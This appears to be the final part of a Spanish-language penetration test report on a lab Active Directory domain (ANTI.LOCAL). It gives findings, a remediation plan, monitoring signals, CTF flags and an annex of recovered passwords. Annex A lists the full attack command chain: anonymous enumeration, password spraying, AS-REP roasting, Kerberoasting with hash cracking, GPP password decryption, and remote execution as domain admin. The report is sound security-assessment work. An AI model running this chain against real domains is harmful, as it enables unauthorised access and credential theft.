**Severidad:** Crítica

**Descripción.** La cuenta tenía un SPN de MSSQL, utilizaba la contraseña débil `monsoon`, no expiraba y pertenecía directamente a `Admins. del dominio`.

**Evidencia.** EVID-033 a EVID-041.

**Impacto.** La recuperación de la contraseña permitió control administrativo del controlador de dominio, lectura/escritura de recursos críticos y ejecución remota con token elevado.

**Remediación.** Retirar la cuenta de `Admins. del dominio`, reemplazarla por una gMSA cuando sea posible, utilizar una contraseña aleatoria extensa, rotarla inmediatamente, reducir privilegios, revisar SPN y monitorizar solicitudes TGS RC4 y autenticaciones administrativas de cuentas de servicio.

---

# 12. Plan priorizado de remediación

| Prioridad | Acción | Plazo recomendado | Hallazgos |
|---:|---|---|---|
| 1 | Deshabilitar o restablecer `svc_sql`, retirar Domain Admin y rotar `monsoon` | Inmediato | AD-06 |
| 2 | Rotar `j.smith`, `a.turner`, `r.weasley` y `bkp_local` | Inmediato | STEG-01, AD-03, AD-04, AD-05 |
| 3 | Eliminar secretos de descripciones, imágenes, scripts y SYSVOL | Inmediato | STEG-01, AD-03, AD-05 |
| 4 | Retirar `/backup/` del webroot y deshabilitar Directory Browsing | 24 horas | WEB-01 |
| 5 | Habilitar preautenticación en todas las cuentas no justificadas | 24 horas | AD-04 |
| 6 | Restringir LDAP/RPC anónimo | 7 días | AD-01 |
| 7 | Fortalecer política de contraseñas y bloquear contraseñas conocidas | 7–30 días | AD-02 |
| 8 | Migrar cuentas de servicio a gMSA y mínimo privilegio | 30 días | AD-06 |
| 9 | Revisar eventos y registros históricos de autenticación | Inmediato y continuo | Todos |
| 10 | Ejecutar una prueba de verificación posterior a la remediación | 30–45 días | Todos |

## 12.1 Eventos y señales recomendadas para monitoreo

- Solicitudes AS-REP para cuentas sin preautenticación.
- Volúmenes inusuales de solicitudes TGS, especialmente RC4.
- Binds LDAP anónimos y enumeración masiva de usuarios.
- Uso administrativo de cuentas de servicio.
- Accesos a `SYSVOL`, `NETLOGON`, `ADMIN$` y `C$` desde estaciones no administrativas.
- Inicio de sesión RDP de cuentas de respaldo o servicio.
- Cambios de pertenencia a grupos privilegiados.
- Modificaciones en GPO y archivos distribuidos por SYSVOL.

---

# 13. Tabla consolidada de flags

| N.º | Tipo | Valor | Fase | Ubicación | Evidencia |
|---:|---|---|---|---|---|
| 1 | `FLAG` | `FLAG{iis_d1r_br0ws1ng_expuesto}` | Web | `/backup/flag.txt` | EVID-011 |
| 2 | `ANTI` | `ANTI{d0m4in_4dmin_ach1eved_ANTI_LOCAL}` | Active Directory | `C:\Loot\flag_domain_admin.txt` | EVID-041 |

---

# 14. Anexo confidencial de credenciales y secretos

| N.º | Dominio | Cuenta | Contraseña o secreto | Fuente | Validación |
|---:|---|---|---|---|---|
| 1 | `ANTI.LOCAL` | No asociada inicialmente | `Password123` | LSB en `onboarding.png` | Válida para `r.weasley` |
| 2 | `ANTI.LOCAL` | `r.weasley` | `Password123` | Password spraying controlado | SMB válido; usuario estándar |
| 3 | `ANTI.LOCAL` | `a.turner` | `prison` | Descripción LDAP | SMB y LDAP válidos |
| 4 | `ANTI.LOCAL` | `j.smith` | `promise1` | AS-REP Roasting | LDAP válido |
| 5 | `ANTI.LOCAL` | Referencia histórica a administrador | `poodie` | GPP `cpassword` | No válida para RID 500 |
| 6 | `ANTI.LOCAL` | `bkp_local` | `poodie` | Reutilización de credencial GPP | `C$` y RDP válidos |
| 7 | `ANTI.LOCAL` | `svc_sql` | `monsoon` | Kerberoasting | Domain Admin y WMI |

> Las contraseñas deben rotarse y no deben conservarse en versiones públicas o repositorios abiertos del informe.

---

# 15. Conclusión

La evaluación confirmó que el controlador de dominio podía ser comprometido completamente a partir de vulnerabilidades encadenadas en la capa web y, principalmente, en la gestión de identidades de Active Directory.

La ruta decisiva combinó enumeración anónima, una cuenta sin preautenticación Kerberos, contraseñas débiles y una cuenta de servicio con privilegios excesivos. El compromiso de `svc_sql` demostró acceso administrativo efectivo mediante `Pwn3d!`, pertenencia directa a `Admins. del dominio`, token de integridad alta y ejecución remota mediante WMI. La lectura de `C:\Loot\flag_domain_admin.txt` validó el cumplimiento del objetivo técnico.

También se identificaron rutas alternativas relevantes: una contraseña expuesta en una imagen permitió comprometer `r.weasley`; un secreto almacenado en la descripción de `a.turner` proporcionó otro acceso válido; y una credencial GPP histórica reutilizada permitió acceder como `bkp_local` a `C$` y RDP. Estas rutas muestran que el riesgo no depende de un único error, sino de una debilidad sistémica en el manejo de secretos, privilegios y configuraciones heredadas.

La remediación debe priorizar la retirada inmediata de `svc_sql` del grupo de administradores del dominio, la rotación de todas las credenciales expuestas, la eliminación de secretos en LDAP y SYSVOL, el fortalecimiento de Kerberos y de la política de contraseñas, y la restricción de la enumeración anónima. Una reevaluación posterior deberá confirmar que ninguna de las rutas documentadas continúa operativa.

---

# Anexo A — Comandos principales en orden lógico

## A.1 Reconocimiento

```bash
date
ip -br addr
ip route
ping -c 4 192.168.57.100
sudo nmap -Pn -n -p 80,443,445,3389 192.168.57.100
sudo nmap -Pn -n -sS -p- --min-rate 1500 -T4 -oA escaneos/01_tcp_completo 192.168.57.100
sudo nmap -Pn -n -sU -p- --open --reason -T5 --min-rate 5000 --max-retries 2 --host-timeout 20m -oA escaneos/02_udp_completo 192.168.57.100
```

## A.2 Web y esteganografía

```bash
curl -i http://192.168.57.100/
curl -i http://192.168.57.100/robots.txt
curl -i http://192.168.57.100/backup/
curl -i http://192.168.57.100/backup/flag.txt
exiftool evidencias/onboarding.png
zsteg -a evidencias/onboarding.png
zsteg -E 'b1,rgb,lsb,xy' evidencias/onboarding.png | strings -n 8
```

## A.3 Enumeración y acceso inicial

```bash
nxc smb 192.168.57.100
rpcclient -U "" -N 192.168.57.100 -c 'querydominfo;enumdomusers;enumdomgroups'
ldapsearch -x -H ldap://192.168.57.100 -b 'dc=anti,dc=local' '(objectClass=user)' sAMAccountName
nxc ldap 192.168.57.100 -u '' -p '' --users
nxc smb 192.168.57.100 -d ANTI -u evidencias/30_usuarios_confirmados.txt -p 'Password123'
nxc smb 192.168.57.100 -u 'a.turner' -p 'prison' -d 'ANTI.LOCAL'
```

## A.4 AS-REP Roasting y Kerberoasting

```bash
python GetNPUsers.py 'ANTI.LOCAL/' -no-pass -usersfile user.txt -dc-ip 192.168.57.100 -format hashcat -outputfile evidencias/asrep_j_smith.txt
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt evidencias/asrep_j_smith.txt
john --show --format=krb5asrep evidencias/asrep_j_smith.txt
nxc ldap 192.168.57.100 -u 'j.smith' -p 'promise1' -M get-desc-users
sudo ntpdate -u 192.168.57.100
python GetUserSPNs.py -dc-ip 192.168.57.100 'ANTI.LOCAL/j.smith:promise1' -request -outputfile evidencias/kerberoast_hashes.txt
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt evidencias/kerberoast_hashes.txt
john --show --format=krb5tgs evidencias/kerberoast_hashes.txt
```

## A.5 Validación administrativa y bandera final

```bash
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL'
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' --shares
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' -x 'whoami'
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' -x 'hostname'
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' -x 'whoami /all'
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' -X '$s=(New-Object -ComObject WScript.Shell).CreateShortcut("C:\Users\Administrador\AppData\Roaming\Microsoft\Windows\Recent\flag_domain_admin.lnk"); $s.TargetPath'
nxc smb 192.168.57.100 -u 'svc_sql' -p 'monsoon' -d 'ANTI.LOCAL' -X 'Get-Content -LiteralPath "C:\Loot\flag_domain_admin.txt"'
```

## A.6 Ruta alternativa GPP

```bash
smbclient "//192.168.57.100/SYSVOL" -U 'ANTI\r.weasley%Password123' -c 'recurse ON;ls'
smbclient "//192.168.57.100/SYSVOL" -U 'ANTI\r.weasley%Password123' -c 'cd ANTI.LOCAL/Policies/{AAAAAAAA-1111-2222-3333-444444444444}/Machine/Preferences/Groups; get Groups.xml evidencias/sysvol/Groups.xml'
gpp-decrypt 'RX33H9QQRiRROhueVlC9+w=='
nxc smb 192.168.57.100 -u bkp_local -p 'poodie' -d ANTI --shares
impacket-rdp_check 'ANTI/bkp_local:poodie@192.168.57.100'
```

---

# Anexo B — Índice de evidencias

| Evidencia | Descripción |
|---|---|
| EVID-001 | Configuración de la máquina auditora |
| EVID-002 | Conectividad ICMP |
| EVID-003 | Validación inicial con Nmap |
| EVID-004 | Escaneo TCP completo |
| EVID-005 | Escaneo UDP |
| EVID-006 | Identificación de servicios |
| EVID-007 | Portal web |
| EVID-008 | Respuesta HTTP |
| EVID-009 | robots.txt |
| EVID-010 | Listado del directorio backup |
| EVID-011 | Bandera web |
| EVID-012 | Metadatos de onboarding.png |
| EVID-013 | Detección de datos LSB |
| EVID-014 | Extracción del secreto |
| EVID-015 | Enumeración RPC anónima |
| EVID-016 | Política de contraseña y bloqueo |
| EVID-017 | Password spraying controlado |
| EVID-018 | Recursos de r.weasley |
| EVID-019 | Groups.xml en SYSVOL |
| EVID-020 | cpassword recuperado |
| EVID-021 | Descifrado GPP |
| EVID-022 | Recolección de BloodHound |
| EVID-023 | ZIP manual de BloodHound |
| EVID-024 | Interfaz de BloodHound |
| EVID-025 | Propiedades de bkp_local |
| EVID-026 | LDAP anónimo y descripción de a.turner |
| EVID-027 | Validación de a.turner |
| EVID-028 | ldapsearch anónimo |
| EVID-029 | Hash AS-REP de j.smith |
| EVID-030 | Recuperación de promise1 |
| EVID-031 | Validación de j.smith |
| EVID-032 | Comparación de recursos SMB |
| EVID-033 | Ticket TGS de svc_sql |
| EVID-034 | Recuperación de monsoon |
| EVID-035 | Validación administrativa y shares |
| EVID-036 | Propiedades LDAP de svc_sql |
| EVID-037 | Ejecución remota e identidad |
| EVID-038 | Token y privilegios |
| EVID-039 | Localización de la bandera final |
| EVID-040 | Resolución del acceso directo |
| EVID-041 | Lectura de la bandera final |
| EVID-042 | Validación de bkp_local |
| EVID-043 | Recursos de bkp_local |
| EVID-044 | Validación RDP de bkp_local |
| EVID-045 | Resumen visual de las rutas de compromiso |

---

# Anexo C — Marcadores de revisión antes de exportar a PDF

- `[COMPLETAR NOMBRE]` en la portada y control del documento.
- Revisar que todas las imágenes se visualicen desde la carpeta `docs/assets/img/pentest-ad/`.
- Agregar la captura adicional de BloodHound para `svc_sql`, si está disponible.
- Decidir si se conserva o se elimina el anexo de credenciales en la versión entregada.
- Verificar que las contraseñas no aparezcan en una copia pública o repositorio.
- Numerar figuras y tablas durante la maquetación final.
- Agregar pie de página, numeración de páginas y clasificación “Confidencial” al exportar a PDF.
